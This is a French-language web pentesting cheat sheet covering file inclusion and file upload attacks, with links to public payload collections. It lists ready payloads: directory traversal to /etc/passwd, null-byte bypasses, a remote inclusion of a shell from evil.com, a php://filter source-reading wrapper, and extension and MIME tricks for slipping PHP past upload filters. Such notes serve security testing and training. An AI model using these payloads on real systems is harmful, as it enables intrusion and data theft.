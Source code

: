 -----

## File Inclusion

### Liens

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
[HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

### Méthodologie

- Utiliser des retour en arrière pour accéder à des fichiers (cf: [Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal) + [Path Truncation](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Path-Truncation?action_solution=voir#ancre_solution))
```powershell
../../../../../../../etc/passwd
```
- Utiliser des null bytes pour bypass les vérifications ou les ajouts de caractères
```powershell
../../../../../../../etc/passwd%00
```
- Utiliser le double encoding, l'utf encoding etc..
- Essayer une Remote File Inclusion en mettant un fichier extérieur hébergé avec [TMPFile](https://tmpfiles.org/)
```powershell
http://evil.com/shell.txt
```
- Utiliser un Wrapper pour afficher le contenu encrypté en base64
```powershell
php://filter/convert.base64-encode/resource=index.php
```

-----

## File Upload

### Liens

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)

### Méthodologie

- Upload un fichier autorisé
- Récupérer le chemin d'accès au fichier
- Essayer de mettre un code php simple
```php
<?php echo 'test'; ?>
```
- En cas d'erreur essayer de changer l'extension :
```powershell
xxx.jpg.php
xxx.php.jpg
xxx.php%00.jpg
xxx.php........
xxx.php%20
xxx.%E2%80%AEphp.jpg  ==> xxx.gpj.php
```
- En cas d'erreur essayer de changer le MIME Type :
```powershell
Content-Type : image/gif
Content-Type : image/png
Content-Type : image/jpeg
```